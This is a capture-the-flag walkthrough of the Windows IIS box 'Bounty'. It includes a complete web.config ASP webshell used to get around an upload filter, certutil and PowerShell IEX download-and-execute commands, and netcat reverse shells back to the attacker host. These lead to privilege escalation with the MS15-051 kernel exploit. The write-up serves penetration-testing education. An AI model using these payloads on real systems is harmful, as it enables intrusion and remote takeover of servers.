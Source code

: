 # Bounty

![image](https://user-images.githubusercontent.com/10210108/79369796-888ee000-7f1f-11ea-9fb0-30af4d5aff32.png)

## Overview

Bounty is a Windows box running IIS and ASP.NET. There is a web page that only allowed image files to be uploaded but I was able to bypass the file restriction by uploading a web.config with embedded asp code in order to get the initial foothold. Running Sherlock I determined that it was vulnerable to MS15-051 exploits improper object handling in the win32k.sys kernel mode driver to get a shell as 'nt authority/system'.

## Enumeration

**Software**

* Microsoft Windows Server 2008 R2 Datacenter
* Microsoft IIS 7.5

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.93 -oN /mnt/data/boxes/bounty/_full_tcp_nmap.txt 
```
* 80/tcp - http

**Directory/File Brute Force**

```
gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx -t 35
```

> The nmap scan shows this is a Windows server running IIS which typically run ASP.NET pages (asp/aspx). This isn't always the case but I decided to start by specifying those two extensions.

![image](https://user-images.githubusercontent.com/10210108/80209534-41c87680-8600-11ea-96c7-b023ce0a293a.png)

* /UploadedFiles/
* /transfer.aspx

## Steps (User)

The gobuster scan provided two results: transfer.aspx and Uploadedfiles. The first provided a mechanism to upload files and the second appeared to be where those files are uploaded to. Starting with the transfer page; image files can be uploaded but I was not able to upload .asp, .aspx, .cer, .asa, .asax...

![image](https://user-images.githubusercontent.com/10210108/80257645-64ce4700-864f-11ea-9912-97bc0b4e637d.png)

I was able to view the philociraptor image that was uploaded.

![image](https://user-images.githubusercontent.com/10210108/80257707-84fe0600-864f-11ea-8fb2-931a34a634a0.png)

After an internet search I came across an article by [Soroush](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) which showed how to use the web.config file to run asp classic code. I combined Soroush's template with the one found [here](https://github.com/tennc/webshell/blob/master/asp/webshell.asp) to create the web.config. The web.config now had asp code that would allow me to run commands.

> Web.config is a configuration file that is used to customize the way a site or directory behaves on a server

**web.config**

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
```

I uploaded the modified config file via the transfer.aspx page and browsed to http://10.10.10.93/uploadedfiles/web.config

![image](https://user-images.githubusercontent.com/10210108/80321152-e60d1180-87e8-11ea-85c5-954ab115548a.png)

> I had to repeat the upload multiple times as the file kept getting removed. To streamline this process I captured the file upload so I could easily rerun the web request to upload the file. Additional steps needed to execute commands via the webshell once it was uploaded were also done this way.

Since I I now had command execution, I prepared my machine to transfer files by starting a python http server and started a netcat listener (rlwrap nc -lvnp 4200)

> Note: rlwrap fixes the arrow key functionality for windows reverse shells.

```
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

Via the webshell, the certutil command was used to copy the file http to the target box. I copied it to the c:\windows\temp folder to prevent it from being automatically removed. 

```
certutil -urlcache -split -f http://10.10.14.22/nc.exe c:\windows\temp\nc.exe
```

With netcat on the box I was able to run a command to create a reverse shell.

```
c:\windows\temp\nc.exe -e cmd 10.10.14.22 4200
```

![image](https://user-images.githubusercontent.com/10210108/80321650-b06a2780-87ec-11ea-99bd-b84a6dc0351f.png)


## Steps (root/system)

Not seeing any hotfixes applied after running sysinfo I proceeded to run sherlock to look for exploits. First I copied sherlock to my working directory.

```
cp ~/tools/Sherlock/Sherlock.ps1 .
```

I used Powershell Invoke-Expression (IEX) to run sherlock in memory, executing Find-AllVuns function

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.22/Sherlock.ps1');Find-AllVulns"
```

![image](https://user-images.githubusercontent.com/10210108/80321918-2bccd880-87ef-11ea-996b-3ba58f7fcb49.png)


This box appeared to be vulnerable to MS15-051 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051-KB3045171.zip

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing.

ms15-051x64.exe was extracted to my working directory and copied to the target via the python http server.

```
python3 -m http.server 80
```

Certutil was used to download ms15-051x64.exe to the c:\windows\temp directory.

```
certutil -urlcache -split -f http://10.10.14.22/ms15-051x64.exe c:\windows\temp\ms15-051x64.exe
```

I started a netcat listener on my box, specifiying a different port (rlwrap nc -lvnp 4201). 

```
rlwrap nc -lvnp 4201
```

With the exploit on the target system I used it to create a reverse shell and received a callback as user 'nt authority\system'.

```
c:\windows\temp\ms15-051x64.exe -e cmd.exe 10.10.14.16 4201
```

![image](https://user-images.githubusercontent.com/10210108/80322013-de9d3680-87ef-11ea-9e1f-5bd8c1634778.png)
